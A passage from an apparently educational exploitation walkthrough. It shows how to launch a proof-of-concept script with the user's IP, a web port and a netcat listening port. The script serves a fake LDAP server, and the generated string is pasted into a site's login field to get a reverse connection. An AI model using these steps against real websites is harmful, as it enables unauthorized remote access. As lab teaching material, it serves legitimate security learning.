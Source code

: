 Then rename the folder as specified in the README as jdk1.8.0_20.

![](./img/c21-image16.png)

Finally, you can run the script while providing your IP address and the port you are listening on. Remember, this is your IP, the web port you want the server to run on, and the port you have set `netcat` to listen to. These are not the parameters of the webserver or site you are trying to exploit.

```bash
python3 poc.py --userip 123.45.67.105 --webport 8000 --lport 4545
```

If successful the script will generate a string for you to paste into one of the fields on the site and start a fake LDAP server to receive the returning communication.

![](./img/c21-image17.png)

Copy the string following "Send me:" and paste it into the username field of the site page. Add any password you like and click "Login".

![](./img/c21-image18.png)
